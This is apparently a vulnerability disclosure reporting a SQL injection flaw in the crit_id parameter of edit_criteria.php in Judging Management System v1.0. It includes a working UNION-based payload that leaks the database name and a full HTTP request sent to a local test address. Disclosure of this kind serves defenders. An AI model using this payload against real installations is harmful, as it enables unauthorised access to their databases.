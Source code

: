 # Judging Management System v1.0 by oretnom23 has SQL injection

BUG_Author: qingning988

vendors: https://www.sourcecodester.com/php/15910/judging-management-system-using-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /php-jms/edit_criteria.php?crit_id=

Vulnerability location: /php-jms/edit_criteria.php?crit_id=, crit_id

dbname =jms_db

[+] Payload: /php-jms/edit_criteria.php?crit_id=-1%27%20union%20select%201,2,database(),4,5--+ // Leak place ---> crit_id


```sql
GET /php-jms/edit_criteria.php?crit_id=-1%27%20union%20select%201,2,database(),4,5--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=f6bhcgo222sk31fnm99nf9tjt1
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/206374160-4ad71f2d-49c7-4919-9e0b-7df2786dcd60.png)
